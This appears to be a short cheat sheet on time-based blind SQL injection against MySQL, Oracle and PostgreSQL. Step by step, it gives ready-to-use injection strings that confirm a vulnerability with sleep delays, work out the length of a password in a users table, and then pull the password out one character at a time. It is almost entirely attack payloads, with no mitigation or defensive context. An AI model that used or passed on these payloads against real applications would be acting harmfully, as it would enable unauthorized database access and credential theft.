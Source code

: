 This technique introduces delays to confirm whether a condition is true.


## 1. Verify Vulnerability with a Delay

For **MySQL** (SLEEP function):
```sql
' || SLEEP(5) --  
```
For **Oracle** (DBMS_LOCK.sleep function):
```sql
' || DBMS_LOCK.sleep(5) --  
```

- **For PostgreSQL (pg_sleep function):**
```sql
' || pg_sleep(5) --  
```
If the response is delayed, the injection is working.

## 2. Extract Password Length
- **For MySQL:**

```sql
' || IF(LENGTH(password)=10, SLEEP(5), 0) FROM users --  
``` 
- **For PostgreSQL:**
```sql    
' || CASE WHEN LENGTH(password)=10 THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users --  
```
- **For Oracle:**     
```sql
' || CASE WHEN LENGTH(password)=10 THEN DBMS_LOCK.sleep(5) ELSE NULL END FROM users --  
```
If the delay occurs, the password is 10 characters long.

## 3. Extract Each Character Using Delay

- **For MySQL:**
```sql
' || IF(SUBSTRING(password,1,1)='a', SLEEP(5), 0) FROM users --  
``` 
- **For Oracle:**
```sql
' || CASE WHEN SUBSTR(password,1,1)='a' THEN DBMS_LOCK.sleep(5) ELSE NULL END FROM users --  
```
 
- **For PostgreSQL:**    
```sql
' || CASE WHEN SUBSTRING(password FROM 1 FOR 1)='a' THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users --  
```

Repeat this for each character to reconstruct the full password.